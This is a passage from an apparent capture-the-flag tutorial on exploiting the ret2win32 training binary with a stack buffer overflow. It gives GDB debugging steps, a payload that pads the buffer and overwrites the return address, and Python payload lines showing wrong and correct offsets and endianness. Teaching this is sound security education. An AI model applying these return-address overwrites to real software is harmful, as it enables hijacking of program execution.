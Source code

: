 **Key Points**:
- `p32()` converts address to 32-bit little-endian format
- We don't need `interactive()` because the program exits after showing flag
- `recvall()` captures all output including the flag

## Testing the Exploit

### Step 12: Debug the Exploit

**Test with GDB first**:
```bash
gdb ret2win32
(gdb) run
# Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + BBBB + \x2c\x86\x04\x08
# (32 A's + 4 B's + ret2win address in little-endian)
```

**What should happen**:
1. Program reads our input
2. Buffer overflow overwrites return address
3. Function returns to ret2win instead of normal exit
4. ret2win executes and shows flag

### Step 13: Common Debugging Commands

```bash
# Check if we control the return address
(gdb) break *pwnme+126        # Break right before return
(gdb) run
# Send payload
(gdb) x/wx $esp               # Check top of stack (return address)
(gdb) info registers          # Check all registers
(gdb) continue                # Continue execution
```

## Common Mistakes

### ❌ Wrong Offset Calculation
```python
# WRONG - counting buffer size incorrectly
payload = b'A' * 40 + p32(ret2win_addr)  

# CORRECT - buffer + saved ebp + return address  
payload = b'A' * 32 + b'B' * 4 + p32(ret2win_addr)
```

### ❌ Wrong Endianness
```python
# WRONG - big-endian or raw bytes
payload = padding + b'\x08\x04\x86\x2c'

# CORRECT - use p32() for little-endian
payload = padding + p32(0x804862c)
```
